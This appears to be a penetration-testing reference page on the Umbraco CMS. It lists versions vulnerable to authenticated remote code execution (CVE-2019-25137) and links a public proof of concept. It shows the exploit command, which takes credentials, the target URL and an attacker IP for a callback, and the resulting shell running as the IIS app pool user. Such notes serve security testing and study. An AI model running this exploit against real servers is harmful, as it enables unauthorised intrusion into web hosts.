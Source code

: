 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Umbraco

Umbraco is an open-source CMS built on the \`.NET platform — specifically using ASP.NET Core or ASP.NET MVC, depending on the version.

## Versions

### 4.11.8-7.15.10, 7.12.4

Vulnerable to **Authenticated RCE** ([CVE-2019-25137](https://nvd.nist.gov/vuln/detail/CVE-2019-25137)). There is working [PoC](https://github.com/Jonoans/Umbraco-RCE?tab=readme-ov-file) available.

{% code overflow="wrap" %}
```bash
# Exploit the target
$ uv run exploit.py -u <username_email> -p <password> -w http://<target:port> -i <attacker_IP>
...
# List the current user
PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```
{% endcode %}

